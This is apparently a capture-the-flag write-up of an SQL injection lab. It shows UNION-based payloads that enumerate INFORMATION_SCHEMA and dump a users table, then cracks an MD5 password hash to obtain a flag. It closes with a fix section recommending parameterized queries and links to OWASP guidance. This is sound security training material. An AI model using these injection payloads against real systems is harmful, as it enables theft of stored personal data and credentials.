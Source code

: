 # SQLI users

### Breach Exploit
From /?page=member we have an sql injection where we can dump all the db:

```
42 OR 1

First name: one
Surname : me

First name: two
Surname : me

First name: three
Surname : me

First name: Flag
Surname : GetThe
```

Get informations about tables:

```
42 UNION ALL SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES

Database: Member_Brute_Force
Table: db_default

Database: Member_Sql_Injection
Table: users

Database: Member_guestbook
Table: guestbook

Database: Member_images
Table: list_images

Database: Member_survey
Table: vote_dbs
```

Get informations about column name:

```
42 UNION ALL SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS

First name: db_default
Surname : id

First name: db_default
Surname : username

First name: db_default
Surname : password

First name: users
Surname : user_id

First name: users
Surname : first_name

First name: users
Surname : last_name

First name: users
Surname : town

First name: users
Surname : country

First name: users
Surname : planet

First name: users
Surname : Commentaire

First name: users
Surname : countersign

First name: guestbook
Surname : id_comment

First name: guestbook
Surname : comment

First name: guestbook
Surname : name

First name: list_images
Surname : id

First name: list_images
Surname : url

First name: list_images
Surname : title

First name: list_images
Surname : comment

First name: vote_dbs
Surname : id_vote

First name: vote_dbs
Surname : vote

First name: vote_dbs
Surname : nb_vote

First name: vote_dbs
Surname : subject
```

Dump the users table:

```
42 UNION ALL SELECT CONCAT(USER_ID, 0x0A, FIRST_NAME, 0x0A, FIRST_NAME, 0x0A, LAST_NAME, 0x0A, TOWN, 0x0A, COUNTRY, 0x0A, PLANET, 0x0A, COMMENTAIRE, 0x0A, COUNTERSIGN), 42 FROM users 

First name: 5
Flag
Flag
GetThe
42
42
42
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

Then brute force an encryp to get the flag:

```
md5(5ff9d0165b4f92b14994e5c685cdce28) = FortyTwo
sha256(FortyTwo) = 9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646
```

### Fix Breach
Use prepared statements and parameterized queries. These are SQL statements that are sent to and parsed by the database server separately from any parameters. This way it is impossible for an attacker to inject malicious SQL.
```https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html```

### Documentation
```https://owasp.org/www-community/attacks/SQL_Injection```
